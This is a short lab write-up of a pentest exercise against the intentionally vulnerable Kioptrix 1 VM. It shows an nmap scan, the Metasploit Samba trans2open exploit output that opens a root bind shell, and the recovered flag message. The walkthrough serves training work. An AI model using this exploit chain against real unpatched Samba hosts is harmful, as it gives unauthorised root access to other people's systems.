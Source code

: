 *This tasks was realised in pair, I was responsible for finding vulnerabilities and exploiting them in order to obtain evidence of successful attack.*

# Kioptrix 1
Firstly we scan host with `nmap`:
```
nmap -sT 192.168.56.105
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-28 10:44 EST  
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers                                                                                        
Nmap scan report for 192.168.56.105                                                                                      
Host is up (0.0087s latency).               
Not shown: 994 closed ports
PORT      STATE SERVICE        
22/tcp    open  ssh            
80/tcp    open  http        
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```
Scan reveals `netbios-ssn` on port 139. We suspect using vulnerable technology `Samba`. We are beginning exploitation with `samba/trans2open` from `metasploit`:
```
[*] 192.168.56.105:139 - Trying return address 0xbffffdfc...
[*] Started bind TCP handler against 192.168.56.105:4444
[*] 192.168.56.105:139 - Trying return address 0xbffffcfc...
[*] 192.168.56.105:139 - Trying return address 0xbffffbfc...
[*] 192.168.56.105:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (0.0.0.0:0 -> 192.168.56.105:4444) at 2020-12-28 11:32:51 -0500
```
Uzyskany dostęp wykorzystujemy do znalezienia dowodu ukończenia zadania. Dane hosta:
We use shell access to find evidence of level completion.
```
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
id
uid=0(root) gid=0(root) groups=99(nobody)
```
In `/var/mail/root` we found following message:
```
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```
